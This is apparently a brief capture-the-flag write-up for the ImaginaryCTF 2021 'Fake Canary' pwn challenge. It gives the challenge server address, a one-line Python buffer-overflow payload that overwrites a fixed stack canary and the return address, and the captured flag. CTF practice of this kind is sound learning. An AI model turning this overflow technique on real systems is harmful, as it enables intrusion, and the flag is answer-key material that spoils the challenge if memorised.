 ![ImaginaryCTF](../../banner.png)

# Fake Canary

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|100|Pwn|207|

### Description

```
Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!	
```

### Attachments

```
https://2021.imaginaryctf.org/r/fake_canary
nc chal.imaginaryctf.org 42002
```
```
(python2.7 -c 'print "A"*40 + "\xef\xbe\xad\xde\x00\x00\x00\x00" +"\x90"*8 +"\x29\x07\x40\x00"+"\x00"*4';cat) | nc chal.imaginaryctf.org 42002
```


There is our flag:
```
ictf{m4ke_y0ur_canaries_r4ndom_f492b211}
```